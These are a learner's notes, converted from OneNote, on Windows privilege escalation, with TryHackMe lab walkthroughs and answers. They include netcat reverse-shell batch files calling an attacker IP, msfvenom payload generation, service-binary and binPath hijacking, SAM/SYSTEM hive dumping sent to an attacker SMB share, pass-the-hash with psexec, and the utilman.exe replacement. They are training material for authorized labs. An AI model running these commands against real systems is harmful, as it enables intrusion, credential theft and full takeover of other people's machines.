# Windows Privilege Escalation

_Source timestamp: Wednesday, March 15, 2023, 4:28 PM_

> Converted from a OneNote Word export into Markdown for rapid cybersecurity reference. Commands and lab steps are preserved from the source notes; use only in authorized lab or assessment environments.

Before you begin, please start the target machine. You can use in-browser access or connect to it over RDP using the credentials below.

Username: mcskidy

Password: Password1

### Windows Privilege Escalation Vectors

- Stored Credentials:

  - Important credentials can be saved in files by the user or in the configuration file of an application installed on the target system.

- Windows Kernel Exploit:

  - The Windows operating system installed on the target system can have a known vulnerability that can be exploited to increase privilege levels.

- Insecure File/Folder Permissions:

  - In some situations, even a low privileged user can have read or write privileges over files and folders that can contain sensitive information.

- Insecure Service Permissions:

  - Similar to permissions over sensitive files and folders, low privileged users may have rights over services. These can be somewhat harmless such as querying the service status (SERVICE_QUERY_STATUS) or more interesting rights such as starting and stopping a service (SERVICE_START and SERVICE_STOP, respectively).

- DLL Hijacking:

  - Applications use DLL files to support their execution. You can think of these as smaller applications that can be launched by the main application. Sometimes DLLs that are deleted or not present on the system are called by the application. This error doesn't always result in a failure of the application, and the application can still run. Finding a DLL the application is looking for in a location we can write to can help us create a malicious DLL file that will be run by the application. In such a case, the malicious DLL will run with the main application's privilege level. If the application has a higher privilege level than our current user, this could allow us to launch a shell with a higher privilege level.

- Unquoted Service Path:

  - If the executable path of a service contains a space and is not enclosed within quotes, a hacker could introduce their own malicious executables to run instead of the intended executable.

- Always Install Elevated:

  - Windows applications can be installed using Windows Installer (also known as MSI packages) files. These files make the installation process easy and straightforward. Windows systems can be configured with the "AlwaysInstallElevated" policy. This allows the installation process to run with administrator privileges without requiring the user to have these privileges. This feature allows users to install software that may need higher privileges without having this privilege level. If "AlwaysInstallElevated" is configured, a malicious executable packaged as an MSI file could be run to obtain a higher privilege level.

- Other software:

  - Software, applications, or scripts installed on the target machine may also provide privilege escalation vectors.

- Privilege escalation does not have a silver bullet, and the vector that will work depends not only on the configuration of the target system but, in some cases, to user behaviour (e.g. finding a passwords.txt file on the desktop where the user notes his account passwords).

- In some cases, you will need to combine two or more vectors to achieve the desired result.

### Initial Information Gathering

- Some automated scripts are available to quickly enumerate most of the known vectors listed above.

- However, in real penetration testing engagements, you will often need to do some additional research based on these scripts' results.

- A few key points in enumeration are as follows:

- Users on the target system: The net users command will list users on the target system.

- OS version:

```text
systeminfo | findstr /B /C: "OS Name"/C: "OS Version"
```

  - will output information about the operating system.

  - This should be used to do further research on whether a privilege escalation vulnerability exists for this version.

- Installed services:

```text
wmic service list /// list services installed on the target system
```

### Exploitation

- The Iperius Backup Service suffers from a privilege escalation vulnerability.

- McSkidy could use it to elevate her privileges on the system.

- When Iperius Backup is installed as a service, it can be configured to run backup tasks with administrator privileges even if the current user has a lower privilege level.

- Let's explore the exploitation steps:

  - 1) Create a new backup task: The task itself is not important. You can set the backup path as C:\Users\McSkidy\Documents

  - 2) Set the destination: From the destination tab, you can set the location where the backup will be written. Again, this is not important; you can set it to C:\Users\McSkidy\Desktop

  - 3) Other processes: The "other processes" tab is important. As you can see, this gives us the option to set a program to run before or after every backup process. As the backup process is ran with administrator privileges, any program or external file configured here will be ran with administrator privileges. To exploit this, we will create a simple bat file and set it to run before the backup.

- The .bat file will launch a shell using the nc.exe utility (conveniently located at C:\Users\McSkidy\Downloads\nc.exe). Launch the Notepad text editor and enter the following lines of code.

```text
@echo off
C:\Users\McSkidy\Downloads\nc.exe ATTACK_IP 1337 -e cmd.exe
```

- You will need to replace "ATTACK_IP" with your attacking machine's IP address; we recommend starting the AttackBox (blue button at the top of this page).

- You can save the file as evil.bat on the desktop of the target system (MACHINE_IP) and select it by enabling the "run a program or open external file" option. Click OK, and you should see a backup job named "documents" on the Iperius dashboard.

- 4) Launch a listener: The evil.bat file will launch cmd.exe and connect back to our attacking machine on port 1337. We should have a listener ready to accept this incoming connection. You can launch ncon your attacking machine with the nc -nlvp 1337 command.

- 5) Run as service: Right-click on the "document" backup job previously created and select the "Run backup as service option".

- 6) Have a shelly Christmas! Within a minute or so, you should see an incoming connection on your attack

### Further Reading

- Privilege escalation is an important topic for penetration tests and various professional certificate exams. You can visit the rooms below to learn more about different techniques used for privilege escalation:

  - [Windows privilege escalation](https://tryhackme.com/jr/winprivesc)

  - [Linux privilege escalation](https://tryhackme.com/jr/linprivesc)

### Answer the questions below

- Complete the username: p.....

```text
get-localuser
```

  - answer: pepper

- What is the OS version?

```text
systeminfo | findstr "OS Version"
```

  - Answer: 10.0.17763 N/A Build 17763

- What backup service did you find running on the system?

```text
get-service | findstr Backup
Answer: IperiusSvc
```

- What is the path of the executable for the backup service you have identified?

```text
wmic service list | findstr Backup
```

  - Answer:

- Run the whoami command on the connection you have received on your attacking machine. What user do you have?

  - Use Imperius Backup Service to create a new task

    - add any folder to the task. I used the Downloads folder

    - add any folder to the destiantion, I used Documents folder

  - Write a batch file script that will launch a shell it contains the following lines

```text
@echo off
C:\Users\McSkidy\Downloads\nc.exe <ATTACKER IP> 1337 -e cmd.exe
```

    - Store the file in a place you can easily find

  - in the "Other Processes" tab of Iperius backup, select the batch file script as a process to run

  - Set up a listener on the attacking machine to receive the incoming connection

```text
nc -lvnp 1337
```

  - Run as service: Right-click on the backup job previously created and select the "Run backup as service option".

  - Wait for incoming connection

```text
whoami
```

  - Answer: the-grinch-hack\thegrinch

- What is the content of the flag.txt file?

  - more C:\Users\thegrinch\Documents\flag.txt

  - Answer: THM-736635221

- The Grinch forgot to delete a file where he kept notes about his schedule! Where can we find him at 5:30?

From <https://tryhackme.com/room/adventofcyber3>

### The "Priv Esc Checklist"

- Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)

- Locating other services running or applications installed that may be abusable (SUID & out of date software)

- Looking for automated scripts like backup scripts (exploiting crontabs)

- Credentials (user accounts, application config files..)

- Mis-configured file and directory permissions

### Accounts Types and Privileges

- Domain Administrators:

  - This is typically the highest account level you will find in an enterprise along with Enterprise Administrators.

  - An account with this level of privilege can manage all accounts of the organization, their access levels, and almost anything you can think of.

  - A "domain" is a central registry used to manage all users and computers within the organization.

- Services:

  - Accounts used by software to perform their tasks such as back-ups or antivirus scans.

- Domain users:

  - Accounts typically used by employees.

  - These should have just enough privileges to do their daily jobs.

  - For example, a system administrator may restrict a user's ability to install and uninstall software.

- Local accounts:

  - These accounts are only valid on the local system and can not be used over the domain.

- Accounts can be easily managed with groups.

  - A user account can be created as a regular user and be later added to the Domain Administrators group, giving it Domain Administrator privileges.

- checking privileges:

```text
"whoami /priv"
```

- Privilege Constants (Authorization): https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants

- Exploitable Privileges: Priv2Admin: https://github.com/gtworek/Priv2Admin

### References:

- Powershell "get-service": https://theitbros.com/get-service-powershell/

- service permissions: https://www.winhelponline.com/blog/view-edit-service-permissions-windows/

- https://blog.aghanim.net/?p=1314

WINPEAS

- enumerates target system to incover privielge escalation paths

- automates commands used by manual methods

- output can be long and difficult to read

- wise to redirect output ot a file

- "winpeas.exe > outputfile.txt"

- location: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

PRIVESCCHECK

- powershell script

- searches common privilege escalation on the target system

- Does not require execution of a binary file

- find: https://github.com/itm4n/PrivescCheck

- to run on target machine must bypass execution policy restrictions with "set-executionpolicy" cmdlet

  - C:\> set-executionpolicy bypass -scope process -force

  - C:\> ..\Privesccheck.ps1

  - C:\> invoke-privesccheck

### Wes-Ng: Windows Exploit Suggester - Next Generation

- runs on attacking machine

- decreases risk of tripping IDS/IPS/antivirus

- Python script: https://github.com/bitsadmin/wesng

- make sure to update before running: "wes.py --update"

- running: python3 wes.py systeminfo.txt

METASPLOIT

- available tool once a meterpreter shell is established on the target system

- module: multi/recon/local_exploit_suggester

### Password Harvesting

- Administrators use Windows Deployment Services (WDS) to install windows (unattended windows installation)

  - single operating system image deployed to multiple hosts on network

  - requires administraor credentials

  - C:\Unattend.xml

  - C:\Windows\Panther\Unattend.xml

  - C:\Windows\Panther\Unattend\Unattend.xml

  - C:\Windows\system32\sysprep.inf

  - C:\Windows\system32\sysprep\sysprep.xml

  - C:\Windows\system32\sysprep\sysprep.xml

  - apperance example:

- <Credentials>
 <Username>Administrator</Username>
 <Domain>thm.local</Domain>
 <Password>MyPassword123</Password>
</Credentials>

```text
POWERSHELL HISTORY
```

- collects powershell history like linux history

- retrieving history, to include credentials:

- from cmd.exe: type <user profile>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

- from powershell: type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

### Saved Windows Credentials

- windows allows users to employ the credentials of other users

- can save these credentials:

- retrieve credentials: "cmdkey /list"

- does not shows actual passwords

- using stored credentials: "runas /savedcred /user:<username cmd.exe

### Internet Information Services (iis) Configuration

- default web server on windows installation

- configurations stored in: web.config

- can store passwords for databases or configured authentication mechanisms

- C:\inetpub\wwwroot\web.config

- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

- finding databases: type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

### RETRIEVE CREDENTIALS FROM SOFTWARE: pUtty

- common winodws ssh client

- stores users' sessions (IP, user, other configuration information)

- does not store ssh passwords

- does store proxy configuration, including cleartext authetnication credentials

- finding: reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

- Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

- Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.

### Scheduled Tasks

- may have lost the binary or using a binary which attacker can modify

- listed from command line: "schtasks"

- detail: "schtasks /query /tn <taskname> /fo list /v"

- "Task To Run" parameter indicates what binary gets executed

- "Run as User" parameter reveals the potential level of privileges which may be obtained

- find out if the user can modify or overwrite the "task to run": icacls <path to binary>

- "(F)" is full privileges

- spawning a reverse shell: "echo C:\tools\nc64.exe -e cmd.exe <attacker ip><attacker port> > C:\tasks\schtask.bat (or whatever the legitimate binary name is)

- need listener on attaker machine

- unusual, but possible to start the victim task manually: schtasks /run /tn vulntask

### Always Install Elevated

- windows installer files (.msi) usually run with privilege level of the user

- installer fies can be configured to run with higher privileges, allowing generation of malicious msi files

- requires two registry values be set

  - "reg query HKCU\SOFWARE\Policies\Microsoft\Windows\Installer"

  - "reg query HKLM\Software\Policies\Microsoft\Windows\Installer"

- msfvenom generates malicious msi

  - "msfvenom -p windows/x65/shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacking port> -f msi -o <name.msi>

- requires the use of the metasploit handler module, which should be set up before transferring and activing the malicious msi

  - "C:\> msiexec /quiet /qn /I C:\Windows\Temp\Malicious.msi

### Windows Services

- managed by the "Service Control Manager" (SCM)

- SCM manages the state of services as needed

- Each service has an assoicated executable, run by the SCM when service is started

- command: "sc qc <service name>" queries service configuration of a service

  - among valuable details: binary and path (BINARY_PATH_NAME); account (and permissions) required to run the service (SERVICE_START_NAME)

- security table of the service binary properties serves as the Discretionary Acccess Control List (DACL)

- Services configurations in registry: "HKLM\SYSTEM\CurrentControlSet\Services\"; subkey exists for every service on the system

- subkey "Security" stores the setting for DACL;

- default requirement that only administraors can edit registry entries

### INSECURE PERMISSIONS on SERVICE EXECUTABLES

- executable associated with service may have weak permissions allowing attacker to modify or replace it

- attacker needs to gain privileges of the service's account

- Identify a service with "sc qc <service name>"

- check permissions of the service "icacls <full path to executable associated with service>"

- potential weaknesses include "Everyone" having modify permissions; allows overwriting with preferred malicious code

- generate reverse shell on attacker device: "msfvenom -p windows/x64/shell_reverse_tcp LHOST <attacker ip> LPORT <attacker port> -f exe-service -o rev-svc.exe

- transfer malicious service via powersheel with using: "wget port>/rev-svc.exe -0 rev-svc.exe

- replace legitimate service

  - "move<legit.exe> <legit.exe.bak>"

  - "move <path to malicious service> <renamed malicious service to same name as legit service>

- recheck permissions

- must stop the legit service which is running in memory "sc stop <svc>"

- restart service to load malicious service into memory "sc start <malicious service>"

- gains privileges associated with the legitimate service

### Unquoted Service Paths

- the path of the associated executable isn't properly quoted to account for spaces on the command

- spaces create exploitable for the Service Control Manager (SCM)

- Full BINARY_PATH_NAME should be enclosed in quotes if there is even one space along the path; flags/options not quoted

- correct: "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service; leaves no ambiguity

- incorrect: C:\Program Files\RealVNC\VNC Server\vncserver.exe ; can be manipulated by inserting malicious code at: C:\Program Files RealVNC\VNC (where VNC is a reverse shell binary)

- installing services inherits permissions of the directory to which they are installed; use icacls to check permissions of directories; exploit those permissions in combination with the service path weaknesses

### Insecure Service Permissions

- nearly last resort when service path is quoted and executable DACL is well set

- the actual service DACL may allow attacker to modify configuration of a service;

- may allow attacker to point to any (malicious) executable) with any account, including SYSTEM

- command "Accesschk" checks for a service DACL

- command "accesschk64.exe -qlc <service>

- attacker will create malicious code and upload to a writeable directory

- grant "everyone" permissions: icacls <path to malicious code> /grant Everyone:F

- change the services associated executable with "sc config <service> binPath='<path to malicious code>'" obj= LocalSystem; note this is setting permissions to the highest possible privileges with "LocalSystem"

- must stop the legit service "sc stop <svc>"

- must start malicious service "sc start <malware>"

### Flag On Svcusr1 Desktop

- command: 'sc query state= > running.txt'; leaving the state field blank defaults to show all active services

- Reveals: "Disk Sorter Enterprise" is stoppable, pausable, and accepts shutdown; probably the best target.

- Reveals: Service name: Schedule; Display name: Task Scheduler; is stoppable

- Reveals: service name "spooler"; display name "print Spooler"; is stoppable

- Reveals: Service Name: TrkWks; Display Name: "Distributed Link Tracking Client"; is stoppable

- command: sc qc "Disk Sorter Enterprise" ; reveals it is svcusr2, but looking for svcusr1

- continue through all running services

- finally sc qc "WindowsScheduler" is svcusr1

  - START_TYPE : AUTO_START

  - BINARY_PATH_NAME : C:\PROGRA~2\SYSTEM~1\Wservice.exe

  - SERVICE_START_NAME : .\svcusr1

-

- command icacls C:\PROGRA~2\SYSTEM~1\Wservice.exe

  - BUILTIN\Administrators have (I)(F)

  - BUILTIN\Users: (I)(RX)

  - Everyone: (M)

  - the ability of everyone to modify is the exploit we need.

- on the attacker machine, make the malicious payload

  - msfvenom -p windows/x65/shell_reverse_tcp LHOST=10.10.247.139 LPORT=8000 -f exe -o svcshl.

- start the server: python3 -m http.server 4000

- move to powershell: wget http://10.10.247.139:4000/svcshl.exe -0 svcshll.exe

  - currently located in the user directory under which we gained initial access

- move C:\PROGRA~2\SYSTEM~1\Wservice.exe C:\PROGRA~2\SYSTEM~1\Wservice.exe .bak

- move svcshll.exe C:\PROGRA~2\SYSTEM~1\Wservice.exe

- grant permissions to everyone: icacls C:\PROGRA~2\SYSTEM~1\Wservice.exe /grant Everyone:F

- stop the legitimate running service: sc stop WindowsScheduler

- start the malicious service: sc start WindowsScheduler

- receive reverse shell and find the flag1.txt on the svcusr1 desktop

### Get Flag On Svcusr2 Desktop

- on the target device

- enumerate unquoted service paths:

```text
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

- reveals "Disk Sorter Enterprise" at C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe

- sc qc 'disk sorter enterprise' has a service start name of svcusr2

- create a reverse shell: msfvenom -p windows/x64/shell_reverse_tcp LHOST= 10.10.247.139 LPORT=4444 -f exe-service -o svcshl2.exe

- start the server: python3 -m http.server 8000

- move to powershell: wget http://10.10.247.139:8000/svcshl2.exe -0 svcshll2.exe

- move the malicious file to it is pointed to before the actual location: move svcshll2.exe C:\MyPrograms\Disk.exe

- grant necessary privileges: icacls C:\MyPrograms\Disk.exe /grant Everyone:F

- stop the legitimate service: sc stop "disk sorter enterprise"

- start the malicious service: sc start "disk sorter enterprise"

- get reverse shell

- whoami indicates svcusr2

- move to user's desktop

### Get Flag On Administrators Desktop

- user powershell to find all running services which can stop:

  - get-service | Where-Object {$_.Status -EQ "Running"} | Where-Object {$_.CanStop -EQ "TRUE"} | select-object Displayname,ServiceName,StartType | sort-object ServiceName | Out-File "C:\Users\thm-unpriv\Documents\running.txt

  - note that sorting ascending is the default, descending sort requires the adding of "-descending"

- Get-Service cmdlet doesn't allow you to get information about the user account under which the service is running. If you need to find all the services running under non-default system accounts, use the Get-CIMInstance cmdlet: Get-CIMInstance -Class Win32_Service -filter "StartName != 'LocalSystem' AND NOT StartName LIKE 'NT Authority%' " |Select-Object SystemName, Name, Caption, StartMode, StartName, State, PathName | Sort-Object StartName | Out-File C:\Users\thm-unpriv\Documents\nonstandard.txt

- shows three services that are not run by builtins. The last is THMService which is run by .\svcusr3

- THMService did not show up in the running.txt created by the get-service commandlet; had to delete the "status" and "CanStop" parameters to get it to show up.

- can enumerate service permissions with "sc sdshow <service>" ; you get some weird output that needs better understanding

- accesschk -c THMService -l > thmPerm.txt

  - SE_DACL_PRESENT

  - Owner: NT AUTHORITY\SYSTEM

  - BUILTIN\Administrators: SERVICE_ALL_ACCESS

  - BUILTIN\Users: SERVICE_ALL_ACCESS

  - admins and users have same permisssion (except current user of course… sheesh)

- build and exe-service reverse shell and start a listener on the attacking device: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.106.47 LPORT=4444 -f exe-service -o myshell.exe; nc -lvnp 4444

- start the server on the attacker: python3 -m http.server 8000

- user powershell to transfer the code to the windows machine: wget http://10.10.106.47:8000/usr3shl.exe -0 usr3shl.exe

- grant necessary privileges: icacls myshell.exe /grant Everyone:F

- redirect the services PathName / BINARY_PATH_NAME to the malcious code: sc config THMService binPath= "C:\Users\thm-unpriv\Documents\myshell.exe" obj= LocalSystem

  - Note: must be spaces after each equal sign; make sure the path is quoted; make sure the quotes exclude object reference

- start the malicious service: sc start THMService; previously found this services was not running to start with

### SEBACKUP / Restore

- allows users to read / write to any file in the system

- ignores any DACL

- intended to allow backups from a system without requiring full administrator privileges

- many different techniques can be used to abuse this

- COPYING THE SAM AND SYSTEM REIGISTRY HIVES

  - Exercise Credentials: THMBackup / CopyMaster555

  - Remmina Remote Desktop Client

  - need cmdline "run as administrator"

  - "whoami /priv" to check privileges

  - backup / save SYSTEM hashes from cmd line: reg save hklm\system C:\Users\THMBackup\system.hive

  - backup / save SAM hashes from cmd line: reg save hklm\sam C:\Users\THMBackup\sam.hive

  - transfer to the files to the attacking computer by any means available to the attacker

| --use kidh4kerus | server.py (impacket) to start simple SMB server with network share |
| --- | --- |

  - on attacker: mkdir share; python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

  - on target: C:\> copy C:\Users\THMBackup\sam.hive [\\ATTACKER_IP\public\](file://ATTACKER_IP/public/) and C:\> copy C:\Users\THMBackup\system.hive [\\ATTACKER_IP\public\](file://ATTACKER_IP/public/)

  - use impacket on attacker again to retrieve the secrets (note: must be run with python3.9): python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL > secrets.txt

- on attacker machine: use administrator hash to perform pass-the-hash attack and gain SYSTEM

- command: python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.40.145 (target IP)

- now having administrator account privileges

SETAKEOWNERSHIP

- allows user to take ownership of any object on the system

- Reminna RDP Credentials: THMTakeOwnership / TheWorldIsMine2022

- Open command line "run as administrator"

- "whoami /priv"

- target for abuse: utilman.exe

- utilman: builtin windows app; provides Ease of Access during lock screen; runs with system privileges; abused by replacing original binary with malicious payload

- take ownership of utilman.exe: takeown /f C:\Windows\System32\Utilman.exe (note: being owner doesn't convey privileges; privieleges msut be set)

- set privileges: icacls C:\Windows\System3Utilman.exe /grant THMTakeOwnership:F

- replace utilman.exe with cmd.exe, both files are in system32 folder: copy cmd.exe utilman.exe

- triggering by locking computerscreen from the start menu

- click the Ease of Access button

- new command line opens up with System privileges, because utilman is executed with system privileges.

### SEIMPERSONATE / Se Assignprimarytoken

- allow a process to impersonate other suers and act on their behalf.

- usually means spawning a process or threat under the security context of another user

### Installed Applications

- enumerating the system for installed applications by checking the application's name and version

- As a red teamer, this information will benefit us

- We may find vulnerable software installed to exploit and escalate our system privileges

- Also, we may find some information, such as plain-text credentials, is left on the system that belongs to other systems or services.

- We will be using the wmic Windows command to list all installed applications and their version.



- Another interesting thing is to look for particular text strings, hidden directories, backup files.

- Then we can use the PowerShell cmdlets, Get-ChildItem, as follow:



### Services and Process

- Windows services enable the system administrator to create long-running executable applications in our own Windows sessions.

- Sometimes Windows services have misconfiguration permissions, which escalates the current user access level of permissions.

- Therefore, we must look at running services and perform services and processes reconnaissance. For more details, you can read about process discovery on [Attack MITRE](https://attack.mitre.org/techniques/T1057/).

- Process discovery is an enumeration step to understand what the system provides.

- The red team should get information and details about running services and processes on a system.

- We need to understand as much as possible about our targets.

- This information could help us understand common software running on other systems in the network.

- For example, the compromised system may have a custom client application used for internal purposes.

- Custom internally developed software is the most common root cause of escalation vectors.

- Thus, it is worth digging more to get details about the current process.

- For more details about core Windows processes from the blue team perspective, check out the TryHackMe room: [Core Windows Process](https://tryhackme.com/room/btwindowsinternals).

### Sharing files and Printers

  - Sharing files and network resources is commonly used in personal and enterprise environments.

  - System administrators misconfigure access permissions, and they may have useful information about other accounts and systems.

  - For more information on printer hacking, we suggest trying out the following TryHackMe room: [Printer Hacking 101](https://tryhackme.com/room/printerhacking101).

### Internal services: DNS, local web applications, etc

- Internal network services are another source of information to expand our knowledge about other systems and the entire environment.

- To get more details about network services that are used for external and internal network services, we suggest trying out the following rooms: [Network Service](https://tryhackme.com/room/networkservices), [Network Service2](https://tryhackme.com/room/networkservices2).

- The following are some of the internal services that are commonly used that we are interested in:

  - DNS Services

  - Email Services

  - Network File Share

  - Web application

  - Database service

### Answer the questions below

- Let's try listing the running services using the Windows command prompt net start to check if there are any interesting running services.



- We can see a service with the name THM Demo which we want to know more about.

- Now let's look for the exact service name, which we need to find more information.



- We find the file name and its path; now let's find more details using the Get-Process cmdlet.



- Once we find its process ID, let's check if providing a network service by listing the listening ports within the system.



- Finally, we can see it is listening on port 8080.

- Now try to apply what we discussed and find the port number for THM Service. What is the port number?







  - Answer: 13338

- Visit the localhost on the port you found in Question #1. What is the flag?

  - Answer: THM{S3rv1cs_1s_3numerat37ed}

- We mentioned that DNS service is a commonly used protocol in any active directory environment and network.

- The attached machine provides DNS services for AD.

- Let's enumerate the DNS by performing a zone transfer DNS and see if we can list all records.

- We will perform DNS zone transfer using the Microsoft tool is nslookup.exe.



- Once we execute it, we provide the DNS server that we need to ask, which in this case is the target machine



- Now let's try the DNS zone transfer on the domain we find in the AD environment.



- The previous output is an example of successfully performing the DNS zone transfer.

- Now enumerate the domain name of the domain controller, thmredteam.com, using the nslookup.exe, and perform a DNS zone transfer. What is the flag for one of the records?



  - Note: The server ip was given as the private ip on the desktop:



### Abusing Vulnerable Software

- unpatched software, out-dated drivers; either of which might have vulnerabilities

- dumping infomration on installations: "wmic product get name, version, vendor" ; may not return all installed programs

- search for exploits on exploit-db, packet storm, or google

- case study: Druva in Sync 6.63 :

- https://www.tenable.com/security/research/tra-2020-12

- https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/

- https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html

- one of the procedures exposed (specifically procedure number 5) on port 6064 allowed anyone to request the execution of any command.

- original vulnerability reported on versions 6.5.0 and prior allowed any command to be run without restrictions. The original idea behind providing such functionality was to remotely execute some specific binaries provided with inSync, rather than any command. Still, no check was made to make sure of that.

OLEDUMP.PY

- helps analyze OLE (Compound File Binary Format) files.

- MS Office with extensions .doc, .xls, .ppt are known as OLE files.

- Malicious actors can abuse macros to hide malicious commands/scripts within Excel and Word documents.

- You can run the command oledump.py [Filename] to view the streams as shown below:



- According to the documentation on [OLE files](https://olefile.readthedocs.io/en/latest/OLE_Overview.html), OLE files could contain storages which are basically folders that contain streams of data or other storages.

- The example below depicts what a typical Word document looks like 'under the hood' and the streams of data you'll normally see.

- Each stream has a name and oledump will conveniently index each stream by assigning it a number to easily select it for analysis.



- The M letter next to a stream indicates that the stream contains a VBA Macro.

  - VBA Macros are created using the Visual Basic for Applications programming language and have legitimate use cases.

  - For instance, macros allow users to create custom functions to automate repetitive or time-consuming tasks within Excel or Word.

- Some of the useful options for analyzing OLE files. To explore more options, use the -m option.

- A does an ASCII dump similar to option -a, but duplicate lines are removed.

- S dumps strings.

- d produces a raw dump of the stream content.

